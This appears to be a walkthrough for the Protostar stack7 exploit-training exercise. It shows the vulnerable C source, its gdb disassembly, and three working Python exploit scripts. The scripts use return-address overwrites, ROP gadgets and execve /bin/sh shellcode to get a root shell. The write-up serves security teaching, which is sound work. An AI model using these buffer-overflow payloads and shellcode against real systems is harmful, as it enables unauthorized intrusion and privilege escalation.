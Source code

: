 ```yaml
---
title: "Protostar stack7 walkthrough"
date: 2020-05-22
tags: [ROP, return oriented programming, buffer overflow, protostar, stack7, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack7](https://exploit-exercises.lains.space/protostar/stack7/)

#### About
Stack7 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

#### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();



}
```

#### Procedure:

The aim is to get a root shell. Similar to the previous problem, we need to overwrite the return pointer. But this time, the return pointer should not be in 0xbf000000 address space (basically stack). As suggested, we can set the return pointer to /bin/sh in libc. We can also set it to itsef so that it fails the 'if' condition and doesn't exit. Then we can use shell code

###### Vulnerability:

`gets()` is vulnerable function.


###### Disassembly:

```
gdb ./stack7
set disassembly-flavor intel
disassemble getpath
disassemble main
```

```
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
End of assembler dump.
(gdb) disassemble main
Dump of assembler code for function main:
0x08048545 <main+0>:    push   ebp
0x08048546 <main+1>:    mov    ebp,esp
0x08048548 <main+3>:    and    esp,0xfffffff0
0x0804854b <main+6>:    call   0x80484c4 <getpath>
0x08048550 <main+11>:   mov    esp,ebp
0x08048552 <main+13>:   pop    ebp
0x08048553 <main+14>:   ret
End of assembler dump.
(gdb) break *0x08048544
Breakpoint 1 at 0x8048544: file stack7/stack7.c, line 24.
```

First, lets get the esp value when ret is executed. We can find out that its 0xbffff7bc.
Like we did in stack6, we can use a similar pythonexploit to get the shell

```python
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x08048544)
eip += struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + nopsled + shellcode
```

![root-regular]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-regular.png)

But we cannot use this method everytime. We might run into some bad characters (like \x00 or \x0a or \x0d) or ASLR might be enabled. So, we cannot use the hardcoded addresses all the time. We can use ret2libc like we did in stack6. We can also search for ROP gadgets and use them.

There are many tools to search for such gadgets.
We can try [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find all unique ROPs using `ROPgadget --binary stack7`. It lists many unique [gadgets]({{site.url}}{{site.baseurl}}/misc/protostarStack7ROPgadgets.txt)
But before that, as suggesting in the hints, lets use `msfelfscan` to find the gadgets.

I looked for any `jmp esp` commands using `/usr/share/framework2/msfelfscan -j esp -f stack7` but couldn't find anything. But there are three `pop pop ret` commands

```
/usr/share/framework2/msfelfscan -s -f stack7
0x08048492   ebx ebp ret
0x080485f7   ebx ebp ret
0x080485c7   edi ebp ret
```


Lets use the address 0x08048492. Once we write the ret pointer (0xbffff7bc) to this address, We need to have some values on stack for each pop and a return address for the return  pointer. Lets add the in the sploit script.

```python
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x08048492)
pop1 = "PPPP"
pop2 = "QQQQ"
ret = struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + pop1 + pop2 + ret +nopsled + shellcode
```

This will give us the root shell

![root-rop]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-rop.png)

Lets use another ROP chain to get shell.

Earlier, we used `ROPgadget` to get some [gadgets]({{site.url}}{{site.baseurl}}/misc/protostarStack7ROPgadgets.txt). Now les try using one of them

![ropgadgets]({{site.url}}{{site.baseurl}}/images/protostar/stack7/ropgadgets.png)

Lets try to use `call eax`
```
0x080484bf : call eax
```

Lets use this address for eip

```
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x080484bf)
esp = struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + esp +nopsled + shellcode
```

![root-esp]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-esp.png)

We can see that we'll get shell again.

